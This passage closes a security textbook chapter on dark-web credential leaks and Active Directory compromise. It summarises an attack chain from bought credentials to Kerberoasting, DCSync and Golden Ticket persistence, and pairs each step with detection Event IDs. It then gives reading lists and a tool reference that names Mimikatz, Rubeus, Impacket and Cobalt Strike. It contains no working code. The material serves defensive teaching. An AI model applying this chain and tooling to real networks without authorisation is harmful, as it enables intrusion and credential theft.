3. Microsoft's cloud-side dark web monitoring (Entra ID Protection `leakedCredentials`, Defender for Identity leaked-credential posture, Defender Password protection, Exposure Management MACE) turns the breach signal into a prioritized, graph-based remediation workflow. This is necessarily a cloud signal, not a perimeter control ([learn.microsoft.com/entra/id-protection/concept-identity-protection-risks](https://learn.microsoft.com/en-us/entra/id-protection/concept-identity-protection-risks), [techcommunity.microsoft.com/blog/microsoftthreatprotectionblog/from-signal-to-strategy-closing-attack-paths-with-identity-intelligence/4491856](https://techcommunity.microsoft.com/blog/microsoftthreatprotectionblog/from-signal-to-strategy-closing-attack-paths-with-identity-intelligence/4491856)).

4. The dark-web-to-AD kill chain is: buy/leak creds (T1589.001) -> credential stuffing (T1110.004) or valid accounts (T1078) -> internal recon -> Kerberoasting/DCSync -> Golden/Silver Ticket persistence. Break it earliest with breached-password blocklists (SP 800-63B-4), phishing-resistant MFA, and credential-exposure monitoring (AU-13(1)).

5. Every attacker technique in this chapter has a paired detection. Know the Event IDs: 4769 (Kerberoast, RC4 0x17), 4771 (AS-REP), 4662 (DCSync), 4742/4724 (noPac), 4768 (Golden Ticket), 4776 (NTLM brute force), 4625 (logon failure). Defender for Identity alerts 2006/2013/2410/2412 map these directly ([github.com/MicrosoftDocs/ATADocs/blob/main/ATPDocs/credential-access-alerts.md](https://github.com/MicrosoftDocs/ATADocs/blob/main/ATPDocs/credential-access-alerts.md)).

**Further reading — primary.**
- NSA/CISA/ASD advisory: Detecting and Mitigating AD Compromises (Sept 2024) — the authoritative AD/credential-theft baseline ([media.defense.gov/2024/Sep/25/2003553985/-1/-1/0/CTR-DETECTING-AND-MITIGATING-AD-COMPROMISES.PDF](https://media.defense.gov/2024/Sep/25/2003553985/-1/-1/0/CTR-DETECTING-AND-MITIGATING-AD-COMPROMISES.PDF)).
- Mandiant M-Trends 2025 — stolen credentials as #2 vector ([cloud.google.com/blog/topics/threat-intelligence/m-trends-2025](https://cloud.google.com/blog/topics/threat-intelligence/m-trends-2025)).
- Mandiant UNC5537/Snowflake — the canonical infostealer-to-SaaS-breach narrative ([cloud.google.com/blog/topics/threat-intelligence/unc5537-snowflake-data-theft-extortion](https://cloud.google.com/blog/topics/threat-intelligence/unc5537-snowflake-data-theft-extortion)).
- Unit 42 ransomware leak-site retrospectives — quantitative dark web analysis with explicit bias caveats ([unit42.paloaltonetworks.com/unit-42-ransomware-leak-site-data-analysis-all-2023](https://unit42.paloaltonetworks.com/unit-42-ransomware-leak-site-data-analysis-all-2023/)).
- Microsoft DCU StealC/Amadey disruption — the supply side of the credential economy ([microsoft.com/en-us/security/blog/2026/06/24/stealc-and-amadey-breaking-down-infostealers-and-the-cybercrime-services-that-deliver-them](https://www.microsoft.com/en-us/security/blog/2026/06/24/stealc-and-amadey-breaking-down-infostealers-and-the-cybercrime-services-that-deliver-them/)).

**Further reading — methodology & standards.**
- MITRE ATT&CK Reconnaissance (TA0043) and Resource Development (TA0042) ([attack.mitre.org/tactics/TA0043](https://attack.mitre.org/tactics/TA0043/)).
- NIST SP 800-63B-4 (July 2025) — breached-password blocklist mandate ([nvlpubs.nist.gov/nistpubs/SpecialPublications/NIST.SP.800-63B-4.pdf](https://nvlpubs.nist.gov/nistpubs/SpecialPublications/NIST.SP.800-63B-4.pdf)).
- NIST CSF 2.0 — ID.AM, ID.RA, DE.CM, DE.AE-07 ([tsapps.nist.gov/publication/get_pdf.cfm?pub_id=957258](https://tsapps.nist.gov/publication/get_pdf.cfm?pub_id=957258)).
- PTES Intelligence Gathering — passive/semi-passive/active postures ([pentest-standard.readthedocs.io/en/master/intelligence_gathering.html](https://pentest-standard.readthedocs.io/en/master/intelligence_gathering.html)).
- OWASP WSTG-INFO-01 — web-app OSINT standard ([owasp.org/www-project-web-security-testing-guide](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/01-Information_Gathering/01-Conduct_Search_Engine_Discovery_Reconnaissance_for_Information_Leakage)).

**Further reading — research blogs.**
- harmj0y, "I Hunt Sys Admins" — AD as a recon sensor ([blog.harmj0y.net/penetesting/i-hunt-sysadmins](https://blog.harmj0y.net/penetesting/i-hunt-sysadmins/)).
- SpecterOps, "Open Source Intelligence Gathering" — four-phase OSINT methodology ([specterops.io/blog/2018/10/02/open-source-intelligence-gathering-techniques-automation-and-visualization](https://specterops.io/blog/2018/10/02/open-source-intelligence-gathering-techniques-automation-and-visualization/)).
- Elad Shamir, "Wagging the Dog" — RBCD abuse foundation ([eladshamir.com/2019/01/28/Wagging-the-Dog.html](https://eladshamir.com/2019/01/28/Wagging-the-Dog.html)).
- The DFIR Report case studies — OSINT-to-ransomware end to end ([thedfirreport.com/2024/12/02/the-curious-case-of-an-egg-cellent-resume](https://thedfirreport.com/2024/12/02/the-curious-case-of-an-egg-cellent-resume/)).
- BHIS, "OSINT for Incident Response" — the first 5 minutes of IR ([blackhillsinfosec.com/osint-for-incident-response-part-1](https://www.blackhillsinfosec.com/osint-for-incident-response-part-1/)).

**Tool quick-reference.** OSINT: theHarvester, Maltego, Shodan, Censys, recon-ng, SpiderFoot, h8mail. AD recon: BloodHound/SharpHound, PowerView, ldeep, ADRecon, PingCastle, Purple Knight. AD attack: Rubeus, Certify/Certipy, Mimikatz, Impacket, NetExec, PetitPotam, noPac. C2/pivot: Sliver, Havoc, Cobalt Strike, ligolo-ng, Responder. Dark web: RansomLook, ransomwatch, OnionScan, gl0bal01/intel-codex SOP. Defender: Entra ID Protection, Defender for Identity, Defender Password protection, Exposure Management, MDTI Graph APIs, Sentinel breach-intel solutions.